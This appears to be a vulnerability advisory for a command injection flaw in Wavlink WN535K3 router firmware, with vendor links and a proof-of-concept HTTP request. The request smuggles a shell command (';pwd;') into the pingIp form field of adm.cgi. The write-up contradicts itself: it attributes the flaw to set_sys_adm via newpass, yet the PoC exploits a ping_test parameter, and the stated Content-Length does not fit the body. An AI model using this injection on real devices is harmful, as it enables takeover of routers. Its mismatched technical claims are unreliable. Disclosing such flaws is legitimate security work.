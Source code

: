 ## Wavlink WN535K3 command injection

### Overview

* Vendor: Wavlink

* Product: Wavlink WN535K3
* Version: 20191010

* Manufacturer's address：https://www.wavlink.com/en_us/product/WL-WN535K3.html
* Firmware download address ：https://www.wavlink.com/zh_cn/firmware/details/7.html

### Vulnerability details

Wavlink WN535K3 20191010 was found to contain a command injection vulnerability in the `set_sys_adm` function via the `newpass` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: http://192.168.10.1
Connection: close
Referer: http://192.168.0.254
Cookie: session=562230006

page=ping_test&CCMD=4&pingIp=1;pwd;
```

